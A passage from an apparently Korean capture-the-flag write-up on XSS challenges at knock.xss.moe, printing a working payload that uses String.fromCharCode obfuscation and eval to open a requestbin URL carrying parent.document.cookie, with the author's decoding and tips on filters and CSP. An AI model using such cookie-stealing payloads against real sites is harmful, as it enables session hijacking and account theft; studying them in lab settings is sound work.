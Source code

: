 

제 삽질의 결론은요!



```
http://3cb34c8407410e2d6c1d708b786ce69a0192b470.knock.xss.moe/?q=http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?document.domain=%22knock.xss.moe%22;eval(String.fromCharCode(119,105,110,100,111,119,46,111,112,101,110,40,34,104,116,116,112,58,47,47,114,101,113,117,101,115,116,98,105,110,46,102,117,108,108,99,111,110,116,97,99,116,46,99,111,109,47,49,108,104,51,97,97,51,49,63,97,61,34,43,112,97,114,101,110,116,46,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))
```



이겁니다! 이거라고요! 허허!

아스키코드의 내용은,

```
window.open("server address?a="+parent.document.cookie)
```



`document.cookie`는 아스키코드로 우회했고요!
`parent.document.cookie`를 사용하니 쿠키 전달되더라고요!

```
This is a dummy page for tutorial.
So this page is already pwned and has XSS payload on itself.
Click this with Google Chrome.
```



이렇게 창이 뜨고 `Click`를 누르면 `ok`가 뜹니다!!

![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_12.png)14번이 남긴 스크립트.jpg



------



#### 오늘은 마지막 인사보다 오늘의 `TIP`!



> - **한번에 XSS 스크립트가 성공하겠다는건 무리데쓰! 어떤 스크립트가 먹히는지 알림창을 띄우고 시작하자.**
> - **어떤 필터링이 걸리고 CSP가 걸렸는지 확인하자.**



---

# XSS 4일차

### 이전편 요약

```
이제 손에 익어서 슬슬 지겹죠?ㅠㅠ 빨리 끝내버리죠! 

XSS 골목투어 2일 남았어요! 아자!
```

